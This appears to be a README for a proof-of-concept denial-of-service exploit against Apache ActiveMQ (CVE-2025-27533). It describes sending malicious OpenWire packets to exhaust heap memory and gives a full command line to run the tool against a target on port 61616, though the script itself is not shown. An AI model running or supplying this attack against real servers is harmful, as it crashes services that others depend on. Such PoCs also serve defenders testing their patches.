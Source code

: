 # CVE-2025-27533-Exploit-for-Apache-ActiveMQ
(PoC) exploit for **CVE-2025-27533**, a Denial of Service (DoS) vulnerability in Apache ActiveMQ. This tool sends malicious OpenWire packets to exhaust the JVM heap memory of the target server,  and potentially crashing the ActiveMQ service on port `61616`.

USE
```
python CVE-2025-27533_Exploit.py --host <TARGET_IP> --port 61616 --total-packets 2000 --buffer-sizes 0x1E00000 0x3200000
```

--------------------------------------------------------------------------------
![ActiveMQ](poc_ActiveMQ.jpg)
